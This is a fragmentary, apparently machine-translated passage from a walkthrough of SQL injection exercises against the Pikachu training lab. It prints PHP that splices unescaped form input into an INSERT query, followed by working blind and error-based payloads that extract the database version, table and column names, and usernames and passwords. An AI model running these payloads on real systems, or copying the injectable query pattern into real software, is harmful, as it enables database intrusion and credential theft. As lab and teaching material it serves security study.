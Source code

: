payload: 123' and length(database())=7 # There are results, the database name is 7 characters

The following is the normal blind injection library explosion steps, abbreviated

Blind (base_on_time)
Server-side core code$_POST['password']!=null){
// $getdata=escape($link, $_POST);//escape

         //No escaping, resulting in an injection vulnerability, the operation type is insert
         $getdata=$_POST;
         $query="insert into member(username,pw,sex,phonenum,email,address) values('{$getdata['username']}',md5('{$getdata['password']}'),' {$getdata['sex']}', '{$getdata['phonenum']}', '{$getdata['email']}', '{$getdata['add']}')";
         $result=execute($link, $query);
         if(mysqli_affected_rows($link)==1){
             $html.="<p>Successful registration, please return <a href='sqli_login.php'>login</a></p>";
         } else {
             $html.="<p>Registration failed, please check if the database is still alive</p>";

         }
     }else{
         $html.="<p>Required items cannot be empty</p>";
     }
}
exploit
  
In the above search-type injection, it demonstrates that the select class reports an error to obtain information, and insert and update are actually similar

Test the insert injection first, enter ' on the registration page to view the observation of the back-end feedback, and learn that the submitted content has participated in splicing in the background by observing the error report.



Version 1' or updatexml(1,concat(0x7e,(version())),0) or'')#

Table name 1' or updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='pikachu'limit 0,1)),0) or'')#



The old rules, the number after changing the limit

Field name 1' or updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users'limit 0,1)),0) or'')#



The old rules, the number after changing the limit

Data 1' or updatexml(1,concat(0x7e,(select username from users limit 0,1)),0) or'')#



Data 1' or updatexml(1,concat(0x7e,(select password from users limit 0,1)),0) or'')#



Test update below

Server-side core code
